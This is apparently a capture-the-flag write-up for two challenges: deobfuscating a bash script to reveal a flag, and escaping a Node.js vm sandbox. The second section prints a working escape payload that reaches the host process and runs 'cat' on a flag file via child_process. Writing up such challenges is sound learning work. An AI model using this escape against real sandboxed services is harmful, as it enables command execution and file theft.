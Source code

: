 # uglybash
> This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.  
> The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?  
> Enjoy the intro misc chal.  

My way on solving this challenge is by changing the `eval` command (was `e$'\u0076'al`) into `printf '%s\n`, then run it, and from the output, change the `/bin/bash` command (was `$BASH ${*%%Y#0C}   ${*,,} <<<`) into `printf '%s\n'` and run it.  
flag : `flag{us3_zsh,_dummy}`

# CaaSiNO

> This is a vm jail challenge written in **javascript**  
> It utilizing this vm thing in javascript to create a child process and run every input in a new context so that we could'nt touch the parent context and read the flag  

However there's a flaw in vm javascript that we can use to abuse the system and touch the parent context to be able to read the flag (more on this [here](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html))

and then i use this script to read the flag
```js
this
    .constructor
    .constructor('return this.process')()
    .mainModule
    .require('child_process')
    .execSync('cat /ctf/flag.txt')
    .toString()
```

`flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`